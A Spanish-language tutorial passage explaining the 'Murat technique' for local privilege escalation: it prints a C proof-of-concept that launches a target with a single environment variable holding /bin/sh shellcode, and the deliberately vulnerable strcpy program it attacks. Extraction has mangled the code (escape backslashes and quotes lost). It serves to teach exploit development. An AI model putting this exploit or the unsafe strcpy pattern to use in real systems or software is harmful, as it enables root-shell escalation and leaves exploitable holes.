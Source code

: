 _**La Técnica de Murat: The byte at the End of the Universe stack**, el byte de Higgs_

Qué buen subtítulo, creo que lo voy a poner en el título principal… La técnica de Murat (o al menos así la bautizó blackngel) es útil en _privesc_, ya que consiste en ejecutar el programa explotado con un entorno casi nulo, con una única variable de entorno, la cual contiene el shellcode. Podemos ver el PoC que emplea blackngel en su [artículo de SET](http://www.set-ezine.org/index.php?num=37&art=6) (el artículo hace referencia a Buffer Overflows Demystified, de Murat, si bien esa página ya no existe, pero la info en aquella época corría por internet \[_rushing through the phone line_\] _like heroin through an addict’s veins_, así que fue fácil encontrarla en [otro sitio](http://www.enderunix.org/docs/en/bof-eng.txt)).

    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

#define BSIZE 144  
#define NOMBRE «./murat»

char shellcode\[\] =  
«x31xc0x31xdbxb0x17xcdx80»  
«xebx1fx5ex89x76x08x31xc0x88x46x07x89x46»  
«x0cxb0x0bx89xf3x8dx4ex08x8dx56x0cxcdx80»  
«x31xdbx89xd8x40xcdx80xe8xdcxffxffxff/bin/sh»;

void main(int argc, char \*argv\[\]) {

char \*p;  
char \*env\[\] = {shellcode, NULL};  
char \*vuln\[\] = {NOMBRE, p, NULL};  
int \*ptr, addr;  
int size;  
int i;

size = BSIZE;

p = (char \*) malloc(size \* sizeof(char));  
if(p == NULL) {  
fprintf(stderr, «nMemoria insuficienten»);  
exit(0);  
}

addr = 0xbffffffa – strlen(shellcode) – strlen(NOMBRE) – 1;  
printf(«Usando direccion: \[ %08x \]n», addr);

ptr = (int \*)p;  
for (i = 0; i < BSIZE; i += 4)  
\*(ptr++) = addr;

execle(vuln\[0\], vuln, p, NULL, env);  
}

Y está pensado para explotar el siguiente código

#include <stdio.h>
#include <string.h>

int main(int argc, char \*argv\[\])  
{  
char buff\[10\];  
strcpy(buff, argv\[1\]);  
return 0;  
}
